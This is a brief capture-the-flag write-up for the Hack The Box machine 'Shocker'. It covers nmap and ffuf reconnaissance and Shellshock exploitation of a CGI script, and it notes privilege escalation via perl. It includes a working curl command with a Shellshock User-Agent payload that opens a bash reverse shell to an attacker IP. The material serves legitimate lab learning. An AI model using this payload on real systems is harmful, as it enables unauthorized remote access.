

# [Shocker](https://www.hackthebox.com/machines/shocker)


```bash
nmap -p80,2222 -sC -sV 10.10.10.56 -Pn
```


Directory brute-forcing

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ
```


From here we found 'cgi-bin' directory then we found and 'user.sh' file.

user.sh file is below.



Let's search for the exploit of shellshock.


From this exploit's code we see that we need to send request with this request header.


Exploitation  (ShellShock)
```bash
curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh
```

Reverse shell comes back.


user.txt


Our shelly user can run below binary(perl) as root user.


Let's search on gtfobins.


root.txt


